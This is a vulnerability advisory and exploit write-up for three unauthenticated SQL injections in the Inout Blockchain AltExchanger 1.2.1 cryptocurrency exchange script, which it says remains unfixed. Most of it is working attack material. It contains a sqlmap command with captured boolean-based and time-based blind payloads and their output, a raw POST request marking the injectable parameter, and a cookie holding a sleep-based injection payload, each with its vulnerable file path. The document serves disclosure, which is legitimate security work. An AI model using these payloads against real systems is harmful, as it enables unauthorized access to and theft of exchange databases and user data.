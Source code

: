 # Information
```
Vulnerability Name  : Multiple Remote SQL Injections in Inout Blockchain AltExchanger
Product             : Inout Blockchain AltExchanger
version             : 1.2.1 
Fixed on            : NA
Date				: 2022-05-21
Vendor Site         : https://www.inoutscripts.com/products/inout-blockchain-altexchanger/
Exploit Detail      : https://github.com/bigb0x/CVEs/Blockchain-AltExchanger-121-sqli.md
CVE-Number          : In Progess
Exploit Author		: Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Three SQL injections have been discovered in Blockchain AltExchanger cryptocurrency exchange platform v1.2.1. This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

# Vulnerable Parameter: symbol (GET)

<br>

Vulnerability File: /application/third_party/Chart/TradingView/chart_content/master.php

<br>

Sqlmap command:
python sqlmap.py -u "http://vulnerable-host.com/application/third_party/Chart/TradingView/chart_content/master.php/history?from=1652650195&resolution=5&symbol=BTC-BCH" -p symbol --dbms=MySQL --banner --random-agent --current-db

output:
Parameter: symbol (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND 7820=7820 AND ('HqKC'='HqKC

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: from=1652650195&resolution=5&symbol=BTC-BCH') AND (SELECT 1060 FROM (SELECT(SLEEP(5)))WJpc) AND ('rQoO'='rQoO
---
[16:43:22] [INFO] testing MySQL
[16:43:23] [INFO] confirming MySQL
[16:43:26] [INFO] the back-end DBMS is MySQL
[16:43:26] [INFO] fetching banner
[16:43:26] [INFO] resumed: 5.6.50
web application technology: PHP 7.0.33
back-end DBMS: MySQL >= 5.0.0
banner: '5.6.50'
[16:43:26] [INFO] fetching current database
[16:43:26] [INFO] retrieved: inout_blockchain_altexchanger_db
current database: 'inout_blockchain_altexchanger_db'

<br>
<kbd>![](resources/Blockchain-AltExchanger-121-sqli-1.png)</kbd>
<br>

# Vulnerable Parameter: marketcurrency (POST)

<br>

Vulnerability File: /index.php/coins/update_marketboxslider

<br>

HTTP Request:
----------------------------------------------------
POST /index.php/coins/update_marketboxslider HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://vulnerable-host.com/
Cookie: inoutio_language=4
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 69
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vulnerable-host.com
Connection: Keep-alive

displaylimit=4&marketcurrency=-INJEQT-SQL-HERE
----------------------------------------------------

<br>

# Vulnerable Parameter: Cookie: inoutio_language (GET)

<br>

Vulnerability File: /index.php

<br>

HTTP Request:
----------------------------------------------------
GET /index.php/home/about HTTP/1.1
Referer: https://www.google.com/search?hl=en&q=testing
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
x-requested-with: XMLHttpRequest
Cookie: inoutio_language=0'XOR(if(now()=sysdate()%2Csleep(6)%2C0))XOR'Z
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Host: vulnerable-host.com
Connection: Keep-alive

----------------------------------------------------

<br>
# Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-21: Advisory published
```

<br>

# Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed@gmail.com

```